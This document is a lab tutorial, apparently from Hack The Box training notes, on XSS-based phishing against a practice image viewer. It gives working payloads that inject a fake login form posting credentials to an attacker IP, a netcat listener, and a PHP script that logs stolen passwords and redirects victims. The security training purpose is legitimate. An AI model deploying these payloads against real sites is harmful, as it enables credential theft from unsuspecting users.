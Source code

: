 # Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.

***

## XSS Discovery

We start by attempting to find the XSS vulnerability in the web application at `/phishing` from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:

Visiting [`http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg`](http://server_ip/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg) :

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the `dead image url` icon:

Visiting [`http://SERVER_IP/phishing/index.php?url=<script>alert(window.origin)</script>`](http://server_ip/phishing/index.php?url=%3Cscript%3Ealert\(window.origin\)%3C/script%3E) :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So, we must run the XSS Discovery process we previously learned to find a working XSS payload. `Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

{% hint style="info" %}
**Tip:** To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.
{% endhint %}

***

## Login Form Injection

Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function `document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the `write` function, the final JavaScript code should be as follows:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can now inject this JavaScript code using our XSS payload (i.e., instead of running the `alert(window.origin)` JavaScript Code). In this case, we are exploiting a `Reflected XSS` vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the `Reflected XSS` section, and the page should look as follows when we visit the malicious URL:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Cleaning Up

We can see that the URL field is still displayed, which defeats our line of "`Please login to continue`". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function `document.getElementById().remove()` function.

To find the `id` of the HTML element we want to remove, we can open the `Page Inspector Picker` by clicking \[`CTRL+SHIFT+C`] and then clicking on the element we need:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we see in both the source code and the hover text, the `url` form has the id `urlform`:

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

So, we can now use this id with the `remove()` function to remove the URL form:

```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:

```html
...PAYLOAD... <!-- 
```

As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.

***

## Credential Stealing

Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.

So, let us start a simple `netcat` server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:

```shell-session
$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Now, let's attempt to login with the credentials `test:test`, and check the `netcat` output we get (`don't forget to replace OUR_IP in the XSS payload with your actual IP`):

```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:

```shell-session
al1abb@htb[/htb]$ mkdir /tmp/tmpserver
al1abb@htb[/htb]$ cd /tmp/tmpserver
al1abb@htb[/htb]$ vi index.php #at this step we wrote our index.php file
al1abb@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Let's try logging into the injected login form and see what we get. We see that we get redirected to the original Image Viewer page:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we check the `creds.txt` file in our Pwnbox, we see that we did get the login credentials:

```shell-session
$ cat creds.txt
Username: test | Password: test
```

With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.
